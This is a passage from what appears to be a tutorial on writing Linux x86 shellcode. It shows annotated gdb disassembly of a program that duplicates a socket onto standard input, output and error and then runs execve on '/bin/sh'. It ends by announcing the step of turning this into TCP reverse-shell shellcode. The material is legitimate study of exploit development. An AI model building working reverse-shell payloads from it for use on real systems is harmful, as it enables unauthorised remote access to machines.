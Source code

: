```nasm
   0x0040072c <+159>:	call   0x4004c0 <dup2@plt>
   ; gdb$ x/2w $esp
   ; 0xbffff010:	0x00000003	0x00000000
   ; gdb$ x/2w $esp
   ; 0xbffff010:	0x00000003	0x00000001
   ; gdb$ x/2w $esp
   ; 0xbffff010:	0x00000003	0x00000002
   ;
   ; parameters:
   ; 0x00000003 = oldfd
   ; 0x0000000[0-2] = newfd
   ; ---------------------------------------------------------------------------------

   ; execve --------------------------------------------------------------------------
   0x00400731 <+164>:	add    esp,0x10
   0x00400734 <+167>:	add    DWORD PTR [ebp-0x2c],0x1
   0x00400738 <+171>:	cmp    DWORD PTR [ebp-0x2c],0x2
   0x0040073c <+175>:	jle    0x400723 <main+150>
   0x0040073e <+177>:	sub    esp,0x4
   0x00400741 <+180>:	push   0x0
   0x00400743 <+182>:	push   0x0
   0x00400745 <+184>:	lea    eax,[ebx-0x17be]
   0x0040074b <+190>:	push   eax
   0x0040074c <+191>:	call   0x4004f0 <execve@plt>
   ; gdb$ x/a $esp
   ; 0xbffff010:	0x400842 => "/bin/sh"
   ; gdb$ x/2c $esp+4
   ; 0xbffff014:	0x0 0x0
   ;
   ; parameters:
   ; 0x4008a4 = pointer to filename on stack
   ; 0x0 = argv[]
   ; 0x0 = anvp[]
   ; ---------------------------------------------------------------------------------

   0x00400751 <+196>:	add    esp,0x10
   0x00400754 <+199>:	sub    esp,0xc
   0x00400757 <+202>:	push   DWORD PTR [ebp-0x20]
   0x0040075a <+205>:	call   0x400530 <close@plt>
   0x0040075f <+210>:	add    esp,0x10
   0x00400762 <+213>:	mov    eax,0x0
   0x00400767 <+218>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0040076a <+221>:	xor    edx,DWORD PTR gs:0x14
   0x00400771 <+228>:	je     0x400778 <main+235>
   0x00400773 <+230>:	call   0x400800 <__stack_chk_fail_local>
   0x00400778 <+235>:	lea    esp,[ebp-0x8]
   0x0040077b <+238>:	pop    ecx
   0x0040077c <+239>:	pop    ebx
   0x0040077d <+240>:	pop    ebp
   0x0040077e <+241>:	lea    esp,[ecx-0x4]
   0x00400781 <+244>:	ret    
End of assembler dump.
```
## Phase 3: Writing shellcode that creates a TCP reverse shell
Now that we have an understanding of what is happening at an assembly level behind the scenes we will convert it into usable shellcode.  Things to keep in mind here is that we cannot have any null bytes, size matters, and that the target address and port number should be configurable.
